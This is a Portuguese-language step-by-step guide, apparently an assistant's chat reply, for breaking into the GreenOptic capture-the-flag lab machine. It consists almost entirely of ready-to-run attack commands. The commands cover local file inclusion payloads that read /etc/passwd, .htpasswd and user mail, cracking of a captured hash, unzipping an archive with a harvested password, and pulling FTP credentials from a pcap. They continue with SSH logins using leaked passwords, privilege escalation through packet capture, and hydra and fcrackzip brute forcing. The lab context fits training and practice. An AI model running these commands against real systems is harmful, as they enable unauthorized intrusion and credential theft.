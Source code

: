Vou detalhar um guia passo a passo COMPLETO para explorar o GreenOptic (172.16.0.113):

## 🔍 FASE 1: RECONHECIMENTO INICIAL

### **Passo 1: Varredura de Portas**
```bash
nmap -sS -A -p- 172.16.0.113
```

### **Passo 2: Varredura de Serviços Web**
```bash
nmap -sV -p 80 --script=http-enum 172.16.0.113
```

## 🎯 FASE 2: EXPLORAÇÃO DA VULNERABILIDADE LFI

### **Passo 3: Testar LFI no Parâmetro include**
```bash
# Teste básico de LFI
curl "http://172.16.0.113/account/index.php?include=../../../../../../etc/passwd"
```

### **Passo 4: Ler Arquivos Sensíveis via LFI**
```bash
# 1. Ler /etc/passwd para ver usuários
curl "http://172.16.0.113/account/index.php?include=../../../../../../etc/passwd"

# 2. Ler .htpasswd para credenciais web
curl "http://172.16.0.113/account/index.php?include=../../../../../../var/www/.htpasswd"

# 3. Ler e-mail do usuário sam
curl "http://172.16.0.113/account/index.php?include=../../../../../../var/mail/sam"

# 4. Tentar ler outros arquivos
curl "http://172.16.0.113/account/index.php?include=../../../../../../etc/hosts"
```

### **Passo 5: Quebrar Hash do .htpasswd**
```bash
# Salvar o hash em um arquivo
echo "staff:$apr1$MNM4eR/f$4c4r8qk8oK8hU0cL.KRcX." > hash.txt

# Quebrar com john the ripper
john --format=md5crypt hash.txt
john --show hash.txt
```

## 🔐 FASE 3: ACESSO AO PAINEL ADMINISTRATIVO

### **Passo 6: Descobrir Subdomínios**
```bash
# Tentar transferência de zona DNS
dig axfr @172.16.0.113 greenoptic.vm

# Ou usar ferramentas de enumeração
gobuster vhost -u http://172.16.0.113 -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

### **Passo 7: Acessar o Recovery Plan**
```bash
# Se descobrir recoveryplan.greenoptic.vm, adicione ao /etc/hosts
echo "172.16.0.113 recoveryplan.greenoptic.vm" >> /etc/hosts

# Acessar com as credenciais encontradas
curl -u staff:wheeler http://recoveryplan.greenoptic.vm/
```

### **Passo 8: Baixar e Extrair Arquivo Confidencial**
```bash
# Baixar dpi.zip (se disponível no recovery plan)
wget --user=staff --password=wheeler http://recoveryplan.greenoptic.vm/dpi.zip -O dpi.zip

# Extrair com senha do e-mail
unzip -P HelloSunshine123 dpi.zip
```

## 📡 FASE 4: ANÁLISE DO PCAP E CREDENCIAIS SSH

### **Passo 9: Analisar Arquivo PCAP**
```bash
# Usar tshark para analisar tráfego FTP
tshark -r dpi.pcap -Y "ftp" -T fields -e ftp.request.command -e ftp.request.arg

# Procurar especificamente por login FTP
tshark -r dpi.pcap -Y "ftp.request.command == 'USER' || ftp.request.command == 'PASS'" -T fields -e ftp.request.command -e ftp.request.arg

# Análise mais detalhada
tshark -r dpi.pcap -Y "ftp" -V | grep -A5 -B5 "USER\\|PASS"
```

### **Passo 10: Tentativa de Conexão SSH**
```bash
# Conectar com credenciais encontradas no PCAP
ssh alex@172.16.0.113
# Senha: FwejAASD1

# Se não funcionar, tentar variações:
ssh alex@172.16.0.113
# Senha: FwejAASD1 (atenção a maiúsculas/minúsculas)
```

## 👑 FASE 5: ESCALAÇÃO DE PRIVILÉGIOS

### **Passo 11: Enumeração Interna (se conseguir acesso SSH)**
```bash
# Verificar usuário atual
whoami
id

# Verificar comandos sudo permitidos
sudo -l

# Verificar grupos
groups

# Procurar por arquivos sensíveis
find / -name "*.txt" -type f 2>/dev/null
find / -name "flag*" -type f 2>/dev/null
```

### **Passo 12: Explorando Grupo Wireshark**
```bash
# Se estiver no grupo wireshark, capturar tráfego
sudo tshark -i any -w /tmp/captura.pcap -c 50

# Ou usar dumpcap
sudo dumpcap -i any -w /tmp/test.pcap -c 10

# Analisar captura em busca de credenciais
tshark -r /tmp/captura.pcap -Y "http.authbasic || smtp.auth" -V
```

### **Passo 13: Buscar Senha do Root**
```bash
# Procurar por strings em Base64 em arquivos de log
grep -r "base64" /var/log/ 2>/dev/null

# Verificar histórico de comandos
history
cat ~/.bash_history

# Procurar credenciais em arquivos de configuração
find / -name "*.conf" -type f -exec grep -l "password\|pass\|secret" {} \; 2>/dev/null
```

### **Passo 14: Decodificar Senha Root**
```bash
# Quando encontrar string Base64 (exemplo)
echo "Uk9PVF9QQFNTVzByRAo=" | base64 -d
# Resultado: ROOT_P@SSw0rD (exemplo)
```

### **Passo 15: Acesso Root e Flag Final**
```bash
# Fazer login como root
su -
# Inserir senha encontrada

# Ou usar SSH direto como root
ssh root@172.16.0.113

# Buscar a flag
cd /root
ls -la
cat flag.txt
cat proof.txt
cat root.txt

# Se não encontrar arquivo óbvio
find /root -type f -name "*.txt" 2>/dev/null
find /root -type f 2>/dev/null
```

## 🛠️ FASE 6: SOLUÇÃO DE PROBLEMAS

### **Se SSH der "Permission Denied":**
```bash
# Verificar se serviço SSH está ativo
nmap -p 22 172.16.0.113

# Testar com outras credenciais possíveis
ssh sam@172.16.0.113
# Senha: HelloSunshine123

# Verificar se há restrição de IP
ssh -o ConnectTimeout=10 alex@172.16.0.113

# Tentar força bruta (último recurso)
hydra -l alex -P /usr/share/wordlists/rockyou.txt ssh://172.16.0.113
```

### **Se não conseguir extrair o PCAP:**
```bash
# Tentar outras senhas para o ZIP
unzip -P password dpi.zip
unzip -P hello dpi.zip
unzip -P sunshine dpi.zip

# Usar fcrackzip para força bruta
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt dpi.zip
```

**Execute esses passos na ordem exata apresentada.** Se em qualquer etapa você receber um erro específico, me avise para que possamos ajustar a abordagem!
